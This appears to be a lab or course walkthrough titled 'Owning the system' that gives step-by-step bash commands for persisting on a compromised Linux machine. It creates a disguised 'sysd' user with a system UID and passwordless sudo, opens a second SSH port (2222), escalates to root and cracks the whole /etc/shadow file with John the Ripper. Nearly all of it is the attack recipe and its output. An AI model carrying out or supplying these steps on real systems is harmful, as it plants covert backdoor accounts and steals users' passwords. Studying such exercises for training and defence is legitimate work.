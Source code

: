 # Advanced-bash-Owning-the-system
<h3>Step 1: Shadow People</h3>
Create a secret user named sysd. Make sure this user doesn't have a home folder created.

 &emsp;&emsp;**$sudo adduser sysd**

Give your secret user a password. 

 &emsp;&emsp;**$sudo passwd sysd**

Give your secret user a system UID < 1000.

 &emsp;&emsp;**$sudo usermod -u 333 sysd**

Give your secret user the same GID.

 &emsp;&emsp;**$sudo groupmod -g 333 sysd**

Give your secret user full sudo access without the need for a password.  

 &emsp;&emsp;$sudo usermod -aG sudo sysd  
 &emsp;&emsp;$sudo nano /etc/sudoers  
 &emsp;&emsp;$sysd ALL=(ALL:ALL) NOPASSWD:ALL  

 Test that sudo access works without your password.

 &emsp;&emsp;**$sudo ls  
 &emsp;&emsp;Command output is:  
 &emsp;&emsp;Matching Defaults entries for sysd on scavenger-hunt:  
     &emsp;&emsp; &emsp;&emsp;env_reset, exempt_group=sudo, mail_badpass,  
     &emsp;&emsp; &emsp;&emsp;secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin**  

User sysd may run the following commands on scavenger-hunt:
     &emsp;&emsp;**(ALL : ALL) NOPASSWD: ALL**



<h3>Step 2: Smooth Sailing</h3>

 Edit the sshd_config file.  

 &emsp;&emsp;**$sudo nano /etc/ssh/sshd_config  

 &emsp;&emsp;Port 22  
 &emsp;&emsp;Port 2222**  


<h3>Step 3: Testing Your Configuration Update</h3>

 Restart the SSH service.

 &emsp;&emsp;**$systemctl restart ssh**


Exit the root account.

 &emsp;&emsp;**$exit**

SSH to the target machine using your sysd account and port 2222.

 &emsp;&emsp;**$ssh sysd@192.168.6.105 -p 2222**

Use sudo to switch to the root user.

 &emsp;&emsp;**$sudo su**



<h3>Step 4: Crack All the Passwords</h3>

SSH back to the system using your sysd account and port 2222.

 &emsp;&emsp;**$ssh sysd@192.168.6.105 -p 2222**

Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file.

 &emsp;&emsp;**$sudo su  
 &emsp;&emsp;$john /etc/shadow**  


